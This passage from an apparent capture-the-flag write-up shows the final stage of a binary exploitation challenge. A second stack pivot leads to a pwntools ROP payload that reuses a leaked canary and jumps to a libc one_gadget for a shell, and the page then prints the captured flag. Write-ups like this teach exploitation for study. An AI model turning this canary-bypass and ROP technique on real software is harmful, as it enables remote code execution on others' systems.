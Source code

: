 ### Gaining Remote Code Execution

Next up since our execution continues at our convenience on _<mark style="color:green;">**cool\_thing3()**</mark>_ (where we started our pivoting), we start over our pivoting again and execute another ropchain. Since we have Glibc at our disposal we have the choice to utilise one\_gadget or call system or even make a syscall. For convenience purposes, one\_gadget is first tried and it works.

```python
# ....some code

# pivot again to anu
io.send(pivotPayload)

# final payload using one_gadgets
one_gadgets = [0x50a37, 0xebcf1, 0xebcf5, 0xebcf8]
ropPayload = flat({
    40: [
        canary,
        pivot, # rbp, doesn't matter since we're on final payload
        libc.address + one_gadgets[1]
    ]
})
io.send(ropPayload)
io.interactive()
```

<figure><img src="../../../.gitbook/assets/image_2023-08-28_022133769.png" alt="" width="563"><figcaption><p>final payload and getting flag</p></figcaption></figure>

### Flag

_**hacktoday{jU5t\_tw05\_c0MpL3m3Nt\_4Nd\_Fl0at1n9\_p01nT\_r3pREs3nt4t10n\_pLU5\_t3l3P0rT1ng\_st4cK\_fr4me\_4R0uNd\_VA\_sp4C3}**_
